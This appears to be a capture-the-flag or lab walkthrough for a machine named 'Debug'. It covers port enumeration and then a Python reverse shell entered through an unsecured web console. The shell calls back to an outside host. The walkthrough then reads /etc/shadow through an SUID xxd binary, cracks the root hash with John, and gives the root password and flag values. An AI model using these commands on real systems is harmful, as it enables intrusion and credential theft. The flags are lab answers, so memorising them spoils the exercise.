


# Debug

**IP Address:** 172.31.1.5

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 22/tcp | open | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80/tcp | open | http | Apache httpd 2.4.29 |
| 68/udp | open|filtered | dhcpc |   |

## Exploitation
### Exploit Details (Code Execution / Unsecured console)
* **Name** - Code Execution / Unsecured console
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Navigate to http://172.31.1.5/console and enter a python reverse shell. 

Commands
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.15",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
whoami
cat /home/megan/access.txt
```




## Privilege Escalation
### Exploit Details (SUID (xxd))
* **Name** - SUID (xxd)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The xxd binary has the SUID bit set and can be used to read the shadow file. 

1. Use the xxd binary to read the shadow file and dump the hashes. 

Commands
```bash
/usr/bin/xxd "/etc/shadow" | /usr/bin/xxd -r
```



2. Dump the hash into a file and use John to crack it. 

Commands
```
echo 'root:$6$YbP4.h/m$HTWC5ubw1dJK1Ed11RExV/55T0JlRnjtPcCyQEugG470lfZG2Eo8Id2ZeEb2vBnHRTVZls2kZNnaC7GZRCjwf/:18358:0:99999:7:::' > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


3. Elevate to the root account using the found password and read the system.txt file. 
Commands
```
su
shanghai
whoami
cat /root/hashes_vault/system.txt
```


## Loot
```
access.txt
ddaa8107cb89153f1ed2e53bca360e55
system.txt
8536837705419b39ca46f3d8c9669368
```